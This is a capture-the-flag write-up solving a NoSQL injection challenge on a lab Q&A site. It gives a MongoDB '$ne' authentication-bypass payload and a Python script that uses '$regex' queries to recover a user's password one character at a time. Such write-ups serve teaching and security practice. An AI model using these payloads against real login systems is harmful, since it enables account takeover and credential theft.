





Check out this new Q&A site. They must be hiding something but we don't know where to search.
The site has two accessible sub-pages: a catalogue of questions and answers
and a login page
Secret information might be in a number of places. There might be unlisted, but accessible pages under questions, or one could try SQL injection in the login form. No luck!
a first hint appears when looking for
http://whale.hacking-lab.com:3371/robots.txt:
Maybe the_admin knows more about the flag
Following this lead, there is one question asked by the_admin:
Oh dear, they are using NoSQL? No wonder normal SQL injection did not work! Some background reading shows that there are no universal attack vectors, because different types of NoSQL databases use different syntax. Luckily, the search is narrowed a bit by the answer to the_admin's question above.
Because the injection material is usually structured, POST requests with JSON
payload should be used, with
Content-Type: application/json.
After quite some searching, it turned out that the DB seems to be MongoDB.
The JSON payload
{
"username": "the_admin",
"password": {"$ne": null}
}
worked and logged me in as the_admin. Hooray! I'm in! Riches beyond compare!
Now what?

The only visible difference is that a new question has appeared:
So, apparently the flag is the password of another user, null. And even an admin has no access to the passwords. Bummer.
To reconstruct the password of null, I used regex queries, testing for each letter in turn. For example,
{
"username": "null",
"password": {"$regex": "^a.*"}
}
tests whether the password starts withe the letter a.
A python script automates the process:
from requests import Session
import string
url = "http://whale.hacking-lab.com:3371/"
sess = Session()
headers = {
"Referer": "http://whale.hacking-lab.com:3371/login",
"Host": "whale.hacking-lab.com:3371",
"Content-type": "application/json"
}
sess.headers.update(headers)
payload = {
"username": "null",
"password": {"$regex": None}
}
# Find alphabet of password
alphabet = []
for c in string.ascii_letters + string.digits + "_-":
payload["password"]["$regex"] = c
req = sess.post(url + 'login', json=payload)
if req.status_code == 200:
alphabet.append(c)
print(c)
print(alphabet)
# alphabet = ['3', '6', '7', 'c', 'e', 'f', 'x', 'E', 'F', 'G', 'K', 'M', 'P', 'Q']
password = ""
found = True
while found:
found = False
for c in alphabet:
payload["password"]["$regex"] = '^' + password + c
req = sess.post(url + 'login', json=payload)
if req.status_code == 200:
print(password, c)
password += c
found = True
break
print("Password = ", password)
To reduce the number of queries, the scrip first tests which letters appear
in the password. Once the alphabet has been established, the password is
successively built up by checking for responses with status code 200.
The password and flag is
N0SQL_injections_are_a_thing